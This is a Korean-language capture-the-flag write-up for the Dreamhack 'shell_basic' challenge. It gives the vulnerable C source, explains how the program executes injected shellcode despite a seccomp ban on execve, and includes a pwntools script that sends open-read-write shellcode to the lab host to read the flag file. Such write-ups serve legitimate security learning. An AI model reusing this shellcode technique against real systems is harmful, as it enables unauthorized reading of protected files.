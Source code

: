 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## 풀이 과정

 처음 문제를 풀기전에는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);``` 의 뜻은 핵심만 말하자면 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. 스택오버플로우에서 찾아보니 메모리 할당하는 방법 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 쉘코드를 실행시킬 수 있는 것이다.

이 문제의 목적은 제시한 플래그 파일을 읽어서 플래그를 획득(출력)하는 것이다. 
즉 우리는 orw shellcode를 이용하는 exploit script를 작성하면 된다.

자 그렇다면 exploit script를 작성해보자. 쉽게 설명하기 위해 주석과 함께 설명하겠다.

```python
from pwn import* 
# importing pwntools
p = remote('host1.dreamhack.games',10732) 
# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용 인자는 각각 호스트와 포트

context.arch = 'amd64' 
#공격 대상 아키텍쳐는 x86-64

path = "/home/shell_basic/flag_name_is_loooooong"
#flag 위치와 이름

code = ''

code += shellcraft.open(path,0 ,0)
#shellcraft를 이용하여 open system call의 쉘코드를 사용.

code += shellcraft.read('rax','rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다. 주의해야할 점은 buffer 인자로 rsp - count가 아니라 rsp 값을 대입해야한다.

code += shellcraft.write(1,'rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#인자가 read와 같다.

print(p.recv())
#출력데이터 받아서 출력.

p.sendline(asm(code)) 
#작성한 쉘코드+'\n'를 기계어로 변환하여 전송 

print(p.recvuntil('}'))
#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
```
